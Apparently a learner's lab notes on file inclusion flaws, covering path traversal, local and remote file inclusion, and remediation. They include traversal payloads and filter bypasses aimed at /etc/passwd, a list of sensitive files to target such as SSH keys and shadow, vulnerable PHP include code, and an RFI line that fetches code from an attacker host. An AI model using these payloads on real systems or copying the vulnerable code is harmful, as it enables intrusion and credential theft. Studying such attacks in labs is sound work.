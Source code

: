 In some scenarios, web applications are written to request access to files on a given system, including images, static text, and so on via parameters. 
- Parameters are query parameter strings attached to the URL that could be used to retrieve data or perform actions based on user input. The following diagram breaks down the essential parts of a URL.
![[Pasted image 20240601141418.png]]
![[Pasted image 20240601141453.png]]

**Why do File inclusion vulnerabilities happen?**
File inclusion vulnerabilities are commonly found and exploited in various programming languages for web applications, such as PHP that are poorly written and implemented. The main issue of these vulnerabilities is the input validation, in which the user inputs are not sanitized or validated, and the user controls them. When the input is not validated, the user can pass any input to the function, causing the vulnerability.

## Path Traversal
Also known as Directory traversal, a web security vulnerability allows an attacker to read operating system resources, such as local files on the server running an application. The attacker exploits this vulnerability by manipulating and abusing the web application's URL to locate and access files or directories stored outside the application's root directory.

Path traversal vulnerabilities occur when the user's input is passed to a function such as `file_get_contents` in PHP. It's important to note that the function is not the main contributor to the vulnerability. Often poor input validation or filtering is the cause of the vulnerability. In PHP, you can use the `file_get_contents` to read the content of a file. You can find more information about the function [here](https://www.php.net/manual/en/function.file-get-contents.php).

The following graph shows how a web application stores files in `/var/www/app`. The happy path would be the user requesting the contents of **userCV.pdf** from a defined path `/var/www/app/CVs.`

![[Pasted image 20240601141926.png]]

We can test out the URL parameter by adding payloads to see how the web application behaves. Path traversal attacks, also known as the **dot-dot-slash attack**, take advantage of moving the directory one step up using the double dots ../. If the attacker finds the entry point, which in this case `get.php?file=`, then the attacker may send something as follows: `http://webapp.thm/get.php?file=../../../../etc/passwd`

![[Pasted image 20240601142148.png]]

Similarly, if the web application runs on a Windows server, the attacker needs to provide Windows paths. For example, if the attacker wants to read the boot.ini file located in `c:\boot.ini`, then the attacker can try the following depending on the target OS version:

`http://webapp.thm/get.php?file=../../../../boot.ini` or 
`http://webapp.thm/get.php?file=../../../../windows/win.ini`

| **Location**                | **Description**                                                                                                                                                   |
| --------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| /etc/issue                  | contains a message or system identification to be printed before the login prompt.                                                                                |
| /etc/profile                | controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived |
| /proc/version               | specifies the version of the Linux kernel                                                                                                                         |
| /etc/passwd                 | has all registered user that has access to a system                                                                                                               |
| /etc/shadow                 | contains information about the system's users' passwords                                                                                                          |
| /root/.bash_history         | contains the history commands for root user                                                                                                                       |
| /var/log/dmessage           | contains global system messages, including the messages that are logged during system startup                                                                     |
| /var/mail/root              | all emails for root user                                                                                                                                          |
| /root/.ssh/id_rsa           | Private SSH keys for a root or any known valid user on the server                                                                                                 |
| /var/log/apache2/access.log | the accessed requests for Apache  webserver                                                                                                                       |
| C:\boot.ini                 | contains the boot options for computers with BIOS firmware                                                                                                        |

### Local File Inclusion (﻿LFI) #1

LFI attacks against web applications are often due to a developers' lack of security awareness. With PHP, using functions such as `include`, `require`, `include_once`, and `require_once` often contribute to vulnerable web applications.

```php
<?PHP 
	include($_GET["lang"]);
?>
```

The PHP code above uses a `GET` request via the URL parameter `lang` to include the file of the page. The call can be done by sending the following HTTP request as follows: `http://webapp.thm/index.php?lang=EN.php` to load the English page or `http://webapp.thm/index.php?lang=AR.php` to load the Arabic page, where `EN.php` and `AR.php` files exist in the same directory.

Let's say we want to read the `/etc/passwd` file, which contains sensitive information about the users of the Linux operating system, we can try the following:
`http://webapp.thm/get.php?file=/etc/passwd` 

In this case, it works because there isn't a directory specified in the `include` function and no input validation.

```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```

In the above code, the developer decided to use the include function to call PHP pages in the languages directory only via `lang` parameters.  If there is no input validation, the attacker can manipulate the URL by replacing the `lang` input with other OS-sensitive files such as `/etc/passwd`.

Again the payload looks similar to the path traversal, but the include function allows us to include any called files into the current page. The following will be the exploit: `http://webapp.thm/index.php?lang=../../../../etc/passwd`

Sometimes we need to do that by requesting a `POST` method to the server using `curl`:
![[Pasted image 20240602050101.png]]
![[Pasted image 20240602051034.png]]
## Local File Inclusion (﻿LFI) #2

In this scenario, we have the following entry point: `http://webapp.thm/index.php?lang=EN`. 

If we enter an invalid input, such as THM, we get the following error:
```php
Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```

The error message discloses significant information:
- the include function looks like:  `include(languages/THM.php);`. If you look at the directory closely, we can tell the function includes files in the languages directory is adding  `.php` at the end of the entry. To bypass this scenario, we can use the NULL BYTE, which is `%00`.
- the full web application directory path which is `/var/www/html/THM-4/`. To exploit this, we need to use the `../` trick, to get out the current folder. 

in the following scenarios, the developer starts to use input validation by filtering some keywords. When we try `http://webapp.thm/index.php?lang=../../../../etc/passwd` , we got the following error: 
```php
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```
I
f we check the warning message in the `include(languages/etc/passwd)` section, we know that the web application replaces the `../` with the empty string. There are a couple of techniques we can use to bypass this.

First, we can send the following payload to bypass it: `....//....//....//....//....//etc/passwd`
![[Pasted image 20240602043555.png]]

## Remote File Inclusion - RFI

Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. 

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:
- Sensitive Information Disclosure
- Cross-site Scripting (XSS)
- Denial of Service (DoS)

 Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt where cmd.txt` contains an execution (reverse shell).
```php
<?PHP print exec('hostname'); ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt.` If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a `GET` request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker.
![[Pasted image 20240602044852.png]]
```
http://10.10.178.13/playground.php?file=http://10.10.190.121:8000/cmd.txt
```
## Remediation

As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

1. Keep system and services, including web application frameworks, updated with the latest version.  
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as `allow_url_fopen` on and `allow_url_include`.  
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
6. Never trust user input, and make sure to implement proper input validation against file inclusion.  
7. Implement whitelisting for file names and locations as well as blacklisting.